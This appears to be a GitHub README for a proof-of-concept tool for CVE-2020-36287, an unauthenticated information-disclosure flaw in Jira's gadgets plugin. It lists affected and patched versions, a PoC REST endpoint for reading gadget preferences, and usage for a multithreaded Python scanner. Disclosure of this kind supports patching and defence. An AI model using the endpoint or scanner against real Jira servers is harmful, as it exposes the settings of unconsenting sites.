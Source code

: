 # CVE-2020-36287
The dashboard gadgets preference resource of the Atlassian gadgets plugin used in Jira Server and Jira Data Center before version 8.13.5, and from version 8.14.0 before version 8.15.1 allows remote anonymous attackers to obtain gadget related settings via a missing permissions check. 

```
Affected software: Atlassian Jira Data Center, Jira Server (also tested on Jira Project Management Software)
Affected Vesrion: Before version 8.13.5, and from version 8.14.0 before version 8.15.1
CVEID: CVE-2020-36287
CVSS Score: 5.3 (Medium)
CVSS Score: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N
Fully Patched Version: 8.13.5, 8.15.1, 8.16.0 

Link: https://site.com/secure/Dashboard.jspa
POC: https://site.com/rest/dashboards/1.0/10000/gadget/{ID}/prefs


usage: CVE-2020-36287.py [-h] [-t THREADS] [-o TIMEOUT] -u URL

optional arguments:
  -h, --help            show this help message and exit
  -t THREADS, --threads THREADS
                        number of threads (15)
  -o TIMEOUT, --timeout TIMEOUT
                        timeout
  -u URL, --url URL     url
```
